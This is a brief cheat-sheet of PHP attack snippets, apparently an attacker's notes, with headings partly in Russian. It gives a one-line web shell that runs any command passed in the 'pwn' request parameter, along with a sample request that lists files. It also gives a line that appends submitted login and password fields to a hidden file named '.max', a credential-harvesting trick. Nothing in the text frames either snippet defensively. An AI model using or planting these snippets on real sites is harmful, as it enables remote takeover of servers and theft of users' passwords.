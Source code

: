 # PHP

# CMD
  <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);
